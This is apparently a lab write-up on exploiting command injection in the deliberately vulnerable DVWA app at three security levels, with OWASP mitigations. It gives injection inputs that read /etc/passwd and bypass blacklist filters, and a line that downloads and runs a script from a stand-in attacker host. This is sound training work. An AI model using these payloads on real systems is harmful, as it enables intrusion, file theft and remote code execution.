










# Command Injection Vulnerability Analysis in DVWA

## Introduction

This report documents my process and findings while analyzing the Command Injection vulnerability within the Damn Vulnerable Web Application (DVWA). The objective was to understand how this vulnerability manifests at different security levels and explore methods for exploitation and mitigation. This analysis was conducted within a controlled lab environment for educational purposes.

## Command Injection Explained

OS Command Injection is a critical web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server hosting an application. According to OWASP, this typically occurs when an application incorporates user-supplied data into a command that the application executes. If the user input is not properly validated or sanitized, an attacker can manipulate the input to append or alter the intended command, leading to unauthorized execution.

The potential impact of successful command injection is severe, potentially enabling an attacker to:

*   Achieve full system compromise.
*   Exfiltrate sensitive data (files, configurations, database contents).
*   Pivot to attack other systems within the internal network.
*   Cause denial of service conditions.

Command Injection falls under the broader **A03:2021 – Injection** category in the OWASP Top 10, underscoring its significance.

## Testing Environment Configuration

The testing environment consisted of:

*   DVWA hosted within a Docker container on macOS (Configuration: [docker-compose.yml](../docker-compose.yml)).
*   A Kali Linux virtual machine (VMware) used as the attack platform.
*   Network connectivity established between the Kali VM and the host machine, allowing access to DVWA via the hostname `dvwa.local` (Setup details: [Host Networking Setup](../setup/host-networking.md)).

## Command Injection Exploitation Across Security Levels

The analysis proceeded through DVWA's Low, Medium, and High security configurations.

### Low Security Level: No Input Validation

At the Low security setting, the application performs no validation or sanitization of the user-provided IP address.

#### 1. Source Code Review

An initial review of the source code revealed the vulnerable implementation:

The core issue lies in the line `shell_exec('ping -c 4 ' . $target )`. The `$target` variable, derived directly from user input (`$_REQUEST['ip']`), is concatenated into the command string executed by `shell_exec`. This direct inclusion without sanitization is the vulnerability.

#### 2. Initial Test and Basic Injection

A standard ping request was submitted to observe normal functionality:

Given the direct use of input in a shell command, common shell command separators (like `;` or `&&`) can be used to append additional commands. Injecting `whoami` confirmed execution context:

**Input:** `127.0.0.1 && whoami`

The output `www-data` confirmed the injected command executed successfully as the web server's user.

#### 3. Reading System Files

Further testing involved attempting to read sensitive system files, such as `/etc/passwd`:

**Input:** `127.0.0.1 ; cat /etc/passwd`

This attempt was also successful, demonstrating the ability to read arbitrary files accessible to the `www-data` user.

### Medium Security Level: Basic Blacklist Filter

The Medium security level introduces a simple blacklist attempting to filter malicious characters.

#### 1. Source Code Review

The relevant source code for the Medium level is:

A blacklist `$substitutions = array( '&&' => '', ';' => '', );` is used with `str_replace` to remove occurrences of `&&` and `;`. Blacklist filters are notoriously prone to bypasses, as they often fail to cover all possible metacharacters or encoding techniques.

#### 2. Blacklist Bypass

While `&&` and `;` are filtered, other shell metacharacters remain unfiltered. The pipe character (`|`), often used for command chaining, was tested:

**Input:** `127.0.0.1 | whoami`

The command executed successfully, as the pipe character was not included in the blacklist. Reading `/etc/passwd` using the pipe was also successful:

**Input:** `127.0.0.1 | cat /etc/passwd`

This demonstrates the ineffectiveness of the simple blacklist.

### High Security Level: Extended Blacklist Filter

The High security level employs a more extensive blacklist.

#### 1. Source Code Review

The High level source code reveals an expanded blacklist:

The blacklist now includes `& `, `;`, `|`, `-`, `$`, `(`, `)`, `` ` ``, `||`. Notably, it attempts to remove `'| '` (pipe followed by a space).

#### 2. Bypassing the Enhanced Blacklist

The blacklist targets a pipe followed by a space (`'| '`). However, it does not appear to target a pipe character immediately followed by another character without a space. This specific condition was tested:

**Input:** `127.0.0.1 |uname -a`

*(Note the lack of space after the pipe `|`)*

The `uname -a` command executed successfully. This indicates the blacklist filter, while more extensive, was not precise enough and could be bypassed by omitting the space after the pipe character.

Testing further with `printenv`:

**Input:** `127.0.0.1 |printenv`

This command also executed, confirming the bypass method is effective.

## Further Potential Commands

Beyond the basic proof-of-concept commands executed (`whoami`, `cat /etc/passwd`, `uname`, `printenv`), a successful command injection vulnerability could allow for more impactful actions, depending on server configuration and available binaries:

*   **Directory Traversal/Listing:** `127.0.0.1 | ls -la /var/www/html`
*   **Network Reconnaissance:** `127.0.0.1 | ip addr` / `ifconfig`
*   **Process Enumeration:** `127.0.0.1 | ps aux`
*   **Remote File Download:** `127.0.0.1 | wget http://attacker-payload-server.example.com/malware.sh -O /tmp/m.sh` (Requires `wget` utility)
*   **Downloaded Payload Execution:** `127.0.0.1 | bash /tmp/m.sh` (Requires downloaded file and `bash`)

These examples illustrate the potential escalation path from initial injection to deeper system interaction.

## Mitigation Strategies (Aligned with OWASP)

Preventing command injection requires careful handling of external input when interacting with the OS. Based on this analysis and general best practices (including OWASP recommendations):

1.  **Primary Defense: Avoid Calling OS Commands:** The most effective defense is to avoid invoking OS commands based on user input altogether. Utilize internal language APIs or libraries for required functionality (e.g., use PHP network functions instead of calling the `ping` binary).
2.  **Use Safe APIs:** If interaction with the OS is unavoidable, use structured APIs that do not invoke an external shell interpreter. If using functions like PHP's `exec` or `shell_exec` is necessary, ensure input is passed safely as arguments to commands.
3.  **Input Validation (Allow-listing):** Implement strict input validation using an "allow-list" approach. Define exactly what constitutes valid input (e.g., a valid IPv4/IPv6 format for the ping example) and reject any input that does not conform. Blacklisting, as demonstrated by DVWA's Medium/High levels, is often insufficient.
4.  **Least Privilege Execution:** Configure the web server and application components to run with the minimum level of OS privileges necessary for their operation. While the test commands ran as `www-data` (not root), this user could still access sensitive application data. Reducing privileges limits the potential impact if an injection vulnerability is exploited.

## Conclusion

This analysis of DVWA's command injection module clearly demonstrated the risks associated with improperly handling user input when executing OS commands. The direct concatenation of user input into shell commands at the Low level provided trivial exploitation. While the Medium and High levels attempted mitigation via blacklisting, these filters proved inadequate and were bypassed using alternative shell metacharacters or by exploiting specific filter implementation details (like the pipe-space combination).

The exercise reinforces the importance of avoiding direct OS command execution where possible and highlights the superiority of allow-list input validation over blacklisting. Securely handling external input and adhering to the principle of least privilege are critical defenses against this high-impact vulnerability.

## Tools Utilized

*   Kali Linux Virtual Machine (VMware)
*   Damn Vulnerable Web Application (DVWA) via Docker
*   Web Browser (Firefox)

## Disclaimer

This report details security testing performed within a controlled, isolated lab environment against an application (DVWA) designed for vulnerability testing. These techniques should not be applied to any system or network without explicit, authorized permission. Unauthorized testing is illegal and unethical. 